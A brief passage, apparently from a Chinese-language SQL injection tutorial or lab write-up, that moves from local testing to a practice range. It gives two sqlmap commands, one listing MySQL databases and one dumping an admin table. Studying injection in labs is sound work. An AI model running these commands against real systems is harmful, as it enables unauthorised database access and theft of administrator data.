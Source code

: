 <img src=".\图片\Snipaste_2023-05-20_18-02-43.png" alt="Snipaste_2023-05-20_18-02-43" style="zoom:67%;" />

补充一下：如果不利用工具想一步步自己调试，可以本地开启 sql 语句监控、输出打印 sql 等方法手工注入

### sql注入利用

以上测试是在本地环境里做的，现在再实际靶场里测试

```bash
python sqlmap.py -r sql_inject.txt --dbms mysql --dbs
```

<img src=".\图片\Snipaste_2023-05-20_18-07-42.png" alt="Snipaste_2023-05-20_18-07-42" style="zoom:67%;" />

```bash
python sqlmap.py -r sql_inject.txt --dbms mysql --dbs --dump -T xy_admin -D yhj
```
